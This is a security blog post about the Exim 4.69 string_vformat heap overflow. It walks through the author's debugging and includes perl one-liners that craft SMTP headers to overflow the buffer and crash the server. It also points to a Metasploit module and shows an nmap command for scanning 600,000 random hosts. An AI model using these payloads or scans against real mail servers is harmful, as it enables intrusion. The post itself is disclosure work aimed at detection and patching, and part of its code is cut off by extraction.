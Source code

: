 ```yaml
---
id: 1692
title: 'Watch out for exim!'
date: '2013-10-14T13:07:34-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://blog.skullsecurity.org/2013/995-revision-v1'
permalink: '/?p=1692'
---
```


Hey everybody,

Most of you have probably heard of the [exim vulnerability](http://www.exim.org/lurker/message/20101207.215955.bb32d4f2.en.html) this week. It has potential to be a nasty one, and my brain is stuffed with its inner workings right now so I want to post before I explode!

First off, if you're concerned that you might have vulnerable hosts, I wrote a plugin for [Nessus](http://nessus.org) to help you find them (I'm not sure if it's in the ProfessionalFeed yet - if it isn't, it will be soon). There's no Nmap script yet, but my sources tell me that it's in progress (keep an eye on [my Twitter account](https://twitter.com/iagox86) for updates on that).

## The vulnerability

The vulnerability is actually a pretty old one. It was [fixed two years ago](http://bugs.exim.org/show_bug.cgi?id=787) (December of 2008). If you look at [the patch](http://git.exim.org/exim.git/commitdiff/24c929a2), it doesn't tell you much. The obvious thing to do, then, is to [download the code](http://exim.mirror.iphh.net/ftp/exim/exim4/exim-4.69.tar.bz2) and try to break it! So let's do that...

The first step is to extract the source and compile it. My strategy was to keep running 'make' and fixing what it complained about until it shut up and compiled. Exim's compilation is annoying like that. You may have more luck reading the manual -- both good!

Once it's built, I decided to take a look at the patched function. It's called string\_vformat() in src/string.c. It's very long, but here's the prototype:

```
BOOL string_vformat(uschar *buffer, int buflen, char *format, va_list ap);
```

Aha! buffer, buflen, format, and a va\_list - it looks like sprintf() to me! Looking one function up, where it's called from, we find string\_format(), which is basically a wrapper around string\_vformat():

```
BOOL string_format(uschar *buffer, int buflen, char *format, ...)
```

Based on the patch and the nature of the function, it was obviously the %s format specifier that was being changed, and it seemed to have something to do with the bounds checking. Rather than reading/understanding all that complicated code, I decided to send stuff into that function and see if I could get it to write off its own buffer. Simple, eh?

So here's the first test I wrote (I took the lazy approach and replaced the real main() function in exim.c with this) (I swear this is the first thing I tried.. I must be lucky or something!):

```
int main(int argc, char *argv[])
{   
    char buffer[16];
    int i, j;

    for(i = 1; i 
<p>Simple enough! We start by setting the buffer length to 1, which should produce an empty string (since the string is terminated with a NULL byte '\x00'). Then we should see 'T', then 'TE', 'TES', etc. Here's what the result is:</p>
$ make
[...]
$ build-Linux-x86_64/exim
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 54 41 41 41 41 41 41 41 41 41 41 41 41 
54 45 53 54 00 00 00 00 00 00 00 00 00 00 00 00 
54 45 53 54 41 00 00 00 00 00 00 00 00 00 00 00
Segmentation fault

<p>Woah, what have we here? When the max length is set to 5, all hell breaks loose! It even manages to segfault my test program (thanks, obviously, to a stack overflow). A quick check shows us that the '%s' is exactly 5 characters into the string, which just happens to be 'buflen'. Testing with other strings will prove that if '%s' is at the index of 'buflen', 'buflen' is ignored and the string will be written right off the end of the buffer into whatever happens to be next. </p>
<p>Now, that leads to the obvious question: where can we find a case where we can control 'buflen' to ensure that '%s' ends up in exactly the right place? That's a rare condition indeed! And this is where I got a little stuck. To help track it down, I added some output to string_vformat() that displays the format string, buflen, and the output every time it runs. Then I did some normal transactions and looked at the output. Here's how (remove the newlines to test this yourself.. I only have so much horizontal room to work with):</p>
echo -ne 'EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n
    This is some data!\r\n.\r\n' | sudo ./exim -bs
<p>This builds an SMTP request with echo and sends it to the exim binary. 'exim -bs' is how exim is run when it's used as inetd, which means it's expecting network traffic to come in stdin. Here are the strings that came into string_vformat():</p>
string_vformat: [250] 'initializing' => initializing
string_vformat: [48] '%s' => root
string_vformat: [128] '%s' => /root
string_vformat: [128] '%s' =>
string_vformat: [128] '%s' => /bin/bash
string_vformat: [250] 'accepting a local %sSMTP message from ' => 
accepting a local SMTP message from <root>
string_vformat: [32768] 'SMTP connection from %s' => SMTP connection from root
string_vformat: [32768] '%s/log/%%slog' => /var/spool/exim/log/%slog
string_vformat: [8171] '%s' => SMTP connection from root
string_vformat: [16384] '%s' => 220 ankh ESMTP Exim 4.69 
Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] '%.3s %s Hello %s%s%s' => 250 ankh Hello root at domain
string_vformat: [16384] '250 OK
' => 250 OK

string_vformat: [32768] 'ACL "%s"' => ACL "acl_check_rcpt"
string_vformat: [16384] '250 Accepted
' => 250 Accepted

string_vformat: [16384] '354 Enter message, ending with "." on a line by itself
' => 354 Enter message, ending with "." on a line by itself

string_vformat: [208] ' id=%s' =>  id=1PSggK-0002bd-0P
string_vformat: [32768] '%sMessage-Id: 
' => Message-Id: <e1psggk-0002bd-0p>

string_vformat: [32768] '%sFrom: %s%s%s%s
' => From: test@test.com

string_vformat: [32768] '%sDate: %s
' => Date: Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] '%s; %s
' => Received: from root (helo=domain)
        by ankh with local-esmtp (Exim 4.69)
        (envelope-from <test>)
        id 1PSggK-0002bd-0P
        for test@localhost; Tue, 14 Dec 2010 20:01:28 -0600

string_vformat: [32768] 'ACL "%s"' => ACL "acl_check_data"
string_vformat: [8154] '%s' =>  /var/spool/exim/log/mainlog
string_vformat: [16384] '250 OK id=%s
' => 250 OK id=1PSggK-0002bd-0P

string_vformat: [128] '%s lost input connection' => ankh lost input connection
string_vformat: [16384] '%s %s
' => 421 ankh lost input connection

string_vformat: [32768] 'SMTP connection from %s' => SMTP connection from root
string_vformat: [8171] '%s lost%s' => SMTP connection from root lost
</test></e1psggk-0002bd-0p></root>
<p>Looking down that list, none of those are obvious places where we can control the length of the format string. Damn! I tried a bunch of other variations without any luck. Things weren't looking good.. I was stuck! </p>
<p>Fortunately, <a href="http://www.exim.org/lurker/message/20101207.215955.bb32d4f2.en.html">the original post</a> had a mostly complete packet dump. After playing for awhile, I finally figured out that sending a bunch of DATA headers, plus the 50mb of garbage, did something interesting! Here's the command I used (again, remove the linebreaks to try this):</p>
$ perl -e 'print "EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n" . "This: is some data\r\n"x100 . 
    "This is more data!\r\n"x5000000 . "\r\n.\r\n"' | ./exim -bs
<p>And here's how the log looked:</p>
string_vformat: [8018] '%c %s' =>   This: is some data
string_vformat: [7997] '%c %s' =>   This: is some data
string_vformat: [7976] '%c %s' =>   This: is some data
string_vformat: [7955] '%c %s' =>   This: is some data
string_vformat: [7934] '%c %s' =>   This: is some data
string_vformat: [7913] '%c %s' =>   This: is some data
string_vformat: [7892] '%c %s' =>   This: is some data
.....down to 0
<p>Great, this looks good! ... but why does it work?</p>
<p>Well, it turns out that if a message is rejected (because, for example, it's too large), the headers for the message are logged in a buffer, one at a time. When each one is logged, the buffer is shortened, which means by tweaking the length of the headers we can control the 'buflen' field. Since the format specifier '%s' is at the third character in the string, we want to end up with three bytes left then add a huge string to the buffer that overwrites the heap. </p>
<p>So now, we do a whole lot of complicated math and a ton of patience, we whittle the buffer to three bytes, then overflow the crap out of it:</p>
$ perl -e 'print "EHLO domain\r\nMAIL FROM: test@test.com\r\n
    RCPT TO: test@localhost\r\nDATA\r\n" . "This: is some data\r\n"x381 . 
    "Final: AAAA\r\nBoom: " . "A"x50000 . "This is more data!\r\n"x5000000 . 
    "\r\n.\r\n"' | ./exim -bs
220 ankh ESMTP Exim 4.69 Tue, 14 Dec 2010 20:19:10 -0600
250-ankh Hello ron at domain
250-SIZE 52428800
250-PIPELINING
250 HELP
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
Segmentation fault

<p>Bodabing! Overflow successful. </p>
<p>The hard part is getting all the sizes, headers, etc just right. The easy part is turning this into code execution -- take a look at <a href="http://www.metasploit.com/modules/exploit/unix/smtp/exim4_string_format">Metasploit</a> to find out that part. </p>
<h2>Who's vulnerable?</h2>
<p>Any 4.6x version of Exim is potentially vulnerable, and possibly earlier versions too. The problem is, different versions may have different logging formats, which means the carefully selected count we did to overflow the buffer isn't going to cut it. So in reality, 4.69-debian is highly vulnerable, because that's what Metasploit and Nessus target; other versions may be as well. </p>
<p>So that naturally leads to the question - how many people are running Exim 4.69? Well, my friend bob, always the troublemaker, decided to scan 600,000 hosts on port 25 to see what's running. I don't recommend following in his footsteps, but this is the command he used:</p>
$ sudo ./nmap -n -d --log-errors -PS25 -p25 --open -sV -T5 -iR 600000 
    -oA output/smtp-versions
<p>Here are the top 10 versions returned (I removed the versions that Nmap didn't recognize), along with their associated counts:</p>
    240 25/tcp open  smtp    syn-ack Postfix smtpd
    206 25/tcp open  smtp    syn-ack Exim smtpd 4.69
     96 25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.4675
     78 25/tcp open  smtp    syn-ack qmail smtpd
     77 25/tcp open  smtp    syn-ack netqmail smtpd 1.04
     40 25/tcp open  smtp    syn-ack BorderWare firewall smtpd
     22 25/tcp open  smtp    syn-ack Microsoft ESMTP
     21 25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
     19 25/tcp open  smtp    syn-ack Cisco PIX sanitized smtpd
     18 25/tcp open  smtp    syn-ack Sendmail 8.13.8/8.13.8

<p>Based on those numbers, I think it's safe to say that Exim smtpd 4.69 is the second most popular SMTP server in the universe. <a href="http://www.skullsecurity.org/blogdata/smtp-versions-count.txt">Here's a complete listing</a>. I considered posting the full Nmap log, but I was worried that one of the servers' owners might notice and be upset at Bob. And I don't want to make any extra trouble for him! </p>
<h2>Conclusion</h2>
<p>The conclusion to this is simple: To all those people running vulnerable (or potentially vulnerable) versions of exim: patch! Patch now! This is an incredibly easy exploit to pull off, and there are public versions everywhere. Protect yourself! </p>
<p>And if you don't have a Nessus ProfessionalFeed, get one and you can test your network right now! </p>
```